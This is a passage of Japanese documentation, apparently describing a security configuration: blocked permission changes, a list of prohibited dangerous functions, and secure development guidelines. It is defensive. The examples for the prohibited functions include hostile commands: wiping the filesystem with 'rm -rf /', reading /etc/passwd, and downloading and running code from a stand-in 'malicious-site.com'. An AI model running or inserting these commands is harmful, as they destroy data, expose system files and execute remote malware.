 #### `"permission_changes"`
- **意味**: ファイル・ディレクトリの権限変更
- **例**: chmod, chown
- **理由**: セキュリティ設定の意図しない変更防止

### `"prohibited_functions": [`
使用を禁止する危険な関数のリスト。

#### `"eval()"`
- **意味**: 文字列をコードとして実行
- **危険性**: 任意コード実行攻撃の温床
- **例**: `eval("__import__('os').system('rm -rf /')")`

#### `"exec()"`
- **意味**: 動的にコードを実行
- **危険性**: evalと同様の任意コード実行
- **例**: `exec("import os; os.system('malicious_command')")`

#### `"system()"`
- **意味**: システムコマンドを実行
- **危険性**: OSコマンドインジェクション
- **例**: `system("rm -rf /tmp/*")`

#### `"shell_exec()"`
- **意味**: シェルコマンドを実行（PHP）
- **危険性**: コマンドインジェクション攻撃
- **例**: `shell_exec("cat /etc/passwd")`

#### `"passthru()"`
- **意味**: 外部プログラムを実行（PHP）
- **危険性**: システムコマンドの直接実行
- **例**: `passthru("wget malicious-site.com/malware")`

#### `"os.system()"`
- **意味**: OSコマンドを実行（Python）
- **危険性**: システムへの直接アクセス
- **例**: `os.system("curl -s malicious-site.com | sh")`

#### `"subprocess.call()"`
- **意味**: サブプロセスを呼び出し（Python）
- **危険性**: 外部プログラムの実行
- **例**: `subprocess.call(["rm", "-rf", "/"])`

### 4. 開発ガイドラインセクション

### `"development_guidelines": {`
セキュアな開発のためのベストプラクティス。

#### `"always_validate_input": true`
- **意味**: 全ての入力値を検証する
- **理由**: インジェクション攻撃の防止
- **例**: フォーム入力、API パラメータの検証
